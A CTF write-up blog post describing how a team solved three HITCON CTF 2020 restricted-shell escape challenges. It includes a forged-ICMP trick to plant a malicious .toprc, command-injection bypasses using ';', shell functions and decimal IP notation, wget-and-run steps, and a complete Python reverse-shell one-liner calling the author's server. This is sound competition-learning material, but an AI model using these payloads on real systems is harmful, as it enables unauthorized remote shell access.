

# HITCON CTF 2020 Misc Challenges

This weeked I played HITCON CTF 2020 with the team [Organizers](https://ctftime.org/team/42934). Everyone put in an incredible effort and we were excited to place 5th among the best CTF teams in the world.



What follows are brief writeups of the very enjoyable Misc shell escape challenges. I learned a lot from these challenges and from sharing ideas with the rest of the team. Several others contributed to solving including jkr, Robin_Jadoul, mrtumble, esrever, and mev.

## oShell (280pts)

#### The Setup
 - We login to an SSH session and have to provide a password and a token to launch a container isolated for our own team. `sshpass -p 'oshell' ssh oshell@54.150.148.61` makes this a little more comfortable.
 - Typing `help`, we only have access to the following programs: `help exit id ping ping6 traceroute traceroute6 arp netstat top htop enable`
 - The `enable` program looks interesting, and it prompts us for a password.

#### Tracing with htop
 - We realise that `htop` has `strace` functionality built-in. In a second SSH session, we can type `s` when selecting the `oShell.py` process which is running `enable`, then see the password in the `readv` syscall there.
 - Using tmux to copy and paste the password into the enable prompt unlocks two new programs `ifconfig` and `tcpdump`.
 - There's a 5 minute timeout for our container, and the enable password changes each time, making this part of the challenge a little frustrating.

#### Command execution with toprc
 - We need to find a way to execute an arbitrary command. We find that `top` uses an `.toprc` file which contains commands that can be used in an obscure "inspect mode", and has some unusual parsing rules which work in our favour.
 - The first line of `.toprc` is ignored, then there's some settings that apparently need to exist, and then there's a line starting `Fixed_widest=0`. Anything appended after that line is ignored unless it matches a line format such as `pipe\txxx\tdate`. That line allows us to run the date command from within top by pressing `Yxxx` to enter "inspect mode".
 - However currently we have no way to write arbitrary data to a file.

#### ICMP echo replies
 - We know that we can write packet capture data with `tcpdump` using its `-w` flag, and that we can put data in ICMP packets using the `ping` command. But the busybox version of ping we have here only supports a single repeated byte in the payload field.
 - The oShell machine does have outbound connectivity though. Therefore we can ping our own box, then forge an ICMP echo reply that contains an entire valid `.toprc` in the payload field.
 - We can tcpdump this echo reply into the oShell user's `.toprc`. As long as the ICMP header doesn't includes a newline character, the packet data (up to the first newline) will be ignored and the `.toprc` packet capture will be valid.
 - [This article](https://subscription.packtpub.com/book/networking_and_servers/9781786467454/1/ch01lvl1sec20/crafting-icmp-echo-replies-with-nping) is helpful in showing how to use nmap's `nping` to forge an echo reply. We should use `sudo bash -c 'echo "1" >  /proc/sys/net/ipv4/icmp_echo_ignore_all'` to disable normal ICMP echo replies from the kernel.

#### The exploit 
 - tcpdump command run on oShell: `tcpdump -i eth0 -w /home/oShell/.toprc -c1 src 46.101.55.21`. The `-c1` tells it to stop recording after a single packet.
 - nping command run on our own box: `sudo nping --icmp -c 1 --icmp-type 0 --icmp-code 0 --source-ip 46.101.55.21 --dest-ip 54.150.148.61 --icmp-seq 0 --data $(cat oshell_payload | xxd -p | tr -d "\n") --icmp-id $ICMP_ID`.
 - The ICMP ID must match the ID of the echo request packet (to pass through the networking stack on the oShell machine), so we also use `sudo tcpdump src 54.150.148.61 and icmp` on our own box to see the incoming ID and adjust the `nping` command accordingly.
 - After sending the echo reply, run `top` and enter `Y`, then running the command should give a reverse shell! From there we can easily call `/readflag`. If it doesn't work there may have been a newline character in the ICMP echo reply header, so we just try again.

Flag: `hitcon{A! AAAAAAAAAAAA! SHAR~K!!!}`


## Baby Shock (201pts)

#### The Setup 
 - We type `help` and find the only available programs are `pwd ls mkdir netstat sort printf exit help id mount df du find history touch`
 - We are inside a Python shell that applies restrictions on our standard input then executes them inside a `busybox sh`.
 - After manual fuzzing, we find that all shell special characters are blocked apart from `.:;()`. It seems we can only use a single `.` in our command line.
 - Our command line must start with one of the allowed programs, but there's not much we can do with them (since dash is blocked we can't use option flags).

#### Command separation
 - We find we can use `;` to terminate a command then run a second command (this can optionally be done inside a subshell with `()`). The second command is not subject to the same program restrictions as the first one.
 - So we can use `pwd ; nc 778385173 4444` to connect to our own server. Decimal IP notation means we can get around the restriction on more than one `.`.
 - We can't plug netcat into a shell as we can't use `-e` or other techniques.

#### Wgetting a shell
 - On our own box we can write a Python reverse shell payload to `index.html` and host it with `python3 -m http.server`:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("46.101.55.21",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
 - Then we can `pwd ; wget 778385173:8000` to pull down our payload into the wget default filename `index.html`.
 - We execute this with `pwd ; sh index.html` to get a reverse shell with no restrictions.
 - From there we just call the `/getflag` binary.

Flag: `hitcon{i_Am_s0_m155_s3e11sh0ck}`


## Revenge of Baby Shock (230pts)

#### The Setup 
 - The same set of programs are allowed as the previous challenge, however this time we additionally cannot use `.` or `;`.
 - Our previous payload therefore doesn't work at all.

#### Unexpected function definition
 - We discover that we can define a shell function without using the conventional syntax. `pwd ()(echo hello)` then running `pwd` will echo hello. In fact, even `pwd () echo hello` works in the busybox sh, although not when tested locally in bash.
 - The function assignment is permitted as we started our command line with an allowed program. The function we created takes precedence over the `pwd` shell builtin.
 - Now we need to find a way to use arbitrary input to get a reverse shell. The previous `wget` payload won't work as we can't even use a single `.` this time to execute `index.html`.

#### Session recording with script
 - We can open a `script` session to record our interactions inside the shell to a file (`pwd () script f` then `pwd`).
 - Then we connect to our remote server with `pwd () nc 778385173 4444` and type the Python reverse shell payload in on our box.
 - After exiting the session, we'll have a script file `f` including our payload but it will also have some bad lines like `Script started, file is f`

#### Cleaning up with vim
 - We can use `vim` to edit the file! After opening Vim, our input is sent to it (after being parsed for restricted characters).
 - For instance `du dd :wq` will delete a line then save the file. `du` is good to use here as it doesn't do anything in Vim.
 - Once the file has been sufficiently cleaned up, it can be executed like in the previous challenge to give a shell.

Flag: `hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}`
